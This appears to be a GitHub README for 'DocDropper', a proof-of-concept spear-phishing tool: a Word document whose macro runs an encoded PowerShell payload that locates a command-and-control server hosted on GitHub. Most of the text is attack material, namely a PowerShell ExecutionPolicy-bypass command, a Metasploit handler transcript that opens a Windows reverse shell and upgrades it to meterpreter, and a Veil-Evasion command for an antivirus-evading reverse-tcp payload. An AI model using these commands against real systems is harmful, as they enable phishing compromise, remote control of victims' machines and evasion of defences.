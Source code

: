 # DocDropper
## Reboot Spear Phishing

DocDropper is a Proof Of Concept of a DOC file who run a payload like a meterpreter, empire, etc.

Indeed, DocDropper use a PowerShell Dynamic Generation Algorithm to find his C&C hosted on Github.com.

Begin by `./dropper/vector.payload.ps1` : This is the encoded payload in the active Macro.

## Miscellaneous

#### Debug mode

```
powershell.exe -ExecutionPolicy Bypass -encodedCommand ([Convert]::ToBase64String(([System.Text.Encoding]::Unicode.GetBytes((Get-Content ./vector.payload.ps1)))))
```

#### Cmd.exe to Meterpreter

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.21
LHOST => 192.168.0.21
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.0.21:4444 
[*] Starting the payload handler...
msf exploit(handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.0.19
[*] Command shell session 1 opened (192.168.0.21:4444 -> 192.168.0.19:59134) at 2015-10-29 22:35:53 +0100

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.0.21:4444 -> 192.168.0.19:59134 (192.168.0.19)

msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse handler on 192.168.0.21:4433 
[*] Starting the payload handler...
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
[*] Command stager progress: 3.33% (3398/102108 bytes)
[...]
[*] Command stager progress: 99.78% (101888/102108 bytes)
[*] Command stager progress: 100.00% (102108/102108 bytes)
```

#### Veil-Evasion Meterpreter

```
veil-evasion -p c/meterpreter/rev_tcp -c LHOST=192.168.0.21 LPORT=4444
```
